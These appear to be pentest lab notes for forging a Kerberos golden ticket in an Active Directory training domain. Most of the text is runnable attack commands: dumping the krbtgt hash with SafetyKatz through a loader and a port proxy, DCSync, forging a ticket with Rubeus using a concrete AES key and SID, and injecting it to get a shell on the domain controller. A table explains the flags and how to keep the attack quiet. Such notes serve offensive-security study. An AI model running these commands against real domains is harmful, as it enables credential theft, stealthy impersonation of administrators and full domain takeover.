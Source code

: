 A golden ticket is signed and encrypted by the hash of krbtgt account
which makes it a valid TGT ticket. The krbtgt user hash could be used to impersonate any user with any privileges from even a non-domain machine.

> [!NOTE] **NOTE**
> As a good practice, it is recommended to change the password of the krbtgt account twice as password history is maintained for the account.
> 
> In real world environments, the krbtgt hash is rarely to never changed because who wants to fuck that up

Execute mimikatz (or a variant) on DC as DA to get krbtgt hash
```powershell
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.48

C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "lsadump::evasive-lsa /patch" "exit"
```

Use DCSync to get AES keys for krbtgt account. This requires DA privileges (or a user that has replication rights on the domain object) and doesn't require RCE on the DC
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\SafetyKatz.exe -args "lsadump::evasive-dcsync /user:dcorp\krbtgt" "exit"
```


Use Rubeus to forge a Golden ticket command with attributes similar to a normal TGT - **AND ALWAYS TARGET AN ACTIVE DA** 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args evasive-golden /aes256:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /printcmd
```

> [!NOTE] **IMPORTANT**
> Remember to add `/ptt` at the end of the generated command to inject the ticket into our current session

Now we can run the generated command which is OPSEC Friendly forge. 
```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe evasive-golden 
/aes256:<keys> /user:Administrator /id:500 /pgid:513 /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /pwdlastset:"11/11/2022 6:33:55 AM" /minpassage:1 /logoncount:2453 /netbios:dcorp /groups:544,512,520,513 /dc:DCORP-DC.dollarcorp.moneycorp.local /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /ptt
```

```powershell
winrs -r:dcorp-dc cmd
```

```
154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
```

| Option                                   | Description                                                                         |
| ---------------------------------------- | ----------------------------------------------------------------------------------- |
| golden                                   | Name of the module                                                                  |
| /aes256:154CB6624[SNIP]                  | AES256 keys of the krbtgt account. Using AES keys makes the attack more silent      |
| /user:Administrator                      | Username for which the TGT is generated                                             |
| /id:500                                  | User RID (retrieved from the DC) (Default 500)                                      |
| /pgid:513                                | Primary Group ID (retrieved from the DC) (Default 513)                              |
| /groups:544,512,520,513                  | Groups the user is a member of (retrieved from the DC) (Default 520,512,513,519,518 |
| /domain:dollarcorp.moneycorp.local       | FQDN of the domain (retrieved from the DC)                                          |
| /sid:S-1-5-21-71981[SNIP]                | SID of the current domain                                                           |
| /pwdlastset:"11/11/2022 6:33:55 AM"      | The PasswordLastSet for the user (retrieved from the DC)                            |
| /minpassage:1                            | “Minimum Password Age” in days (retrieved from the DC)                              |
| /logoncount:2453                         | Logon Count for the user (retrieved from the DC)                                    |
| /netbios:dcorp                           | NetBIOS name of the domain (retrieved from the DC)                                  |
| /dc:DCORP-DC.dollarcorp.moneycorp.local  | FQDN of the DC (retrieved from the DC)                                              |
| /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD | UserAccountControl Flags (retrieved from the DC)                                    |
| /ptt                                     | Inject in the current process                                                       |


![[Pasted image 20250508054121.png]]